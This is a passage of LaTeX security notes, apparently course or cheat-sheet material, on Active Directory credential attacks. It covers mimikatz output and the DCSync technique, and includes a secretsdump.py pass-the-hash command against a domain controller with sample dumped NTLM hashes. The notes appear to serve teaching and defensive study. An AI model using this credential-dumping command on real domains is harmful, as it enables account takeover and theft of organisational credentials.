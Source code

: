 \subsubsection*{mimikatz - Understanding the output}
\begin{center}
    \includegraphics[width=\textwidth]{resources/11-mimikatz-understanding-the-output.png}
\end{center}

\subsection{DCSync}
\begin{itemize}
    \item Late-stage attack to obtain arbitrary user- and machine creds (Kerberos keys / NTLM hashes)
    \item Relies on data replication features between multiple domain controller via Microsoft Directory Replication Service Remote Protocol (MS-DRSR)
    \item Basically: "Simulate a DC asking another DC to replicate one or more object incl. credentials"
    \item Requires specific privileges (by default only active for Domain Admins and Domain Controllers):
\end{itemize}

\subsubsection*{DCSync - secretsdumps.py}
\begin{lstlisting}[language=sh]
# secretsdump.py -hashes :e4[CUT]f9 -just-dc -just-dc-user user1 dc@10.0.1.100
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mydomain.local\user1:1127:aad3b435b51404eeaad3b435b51404ee:8cf0345c0d74a3efa5b598
489493cf47b::
[*] Kerberos keys grabbed
[CUT]
[*] Cleaning up...
\end{lstlisting}

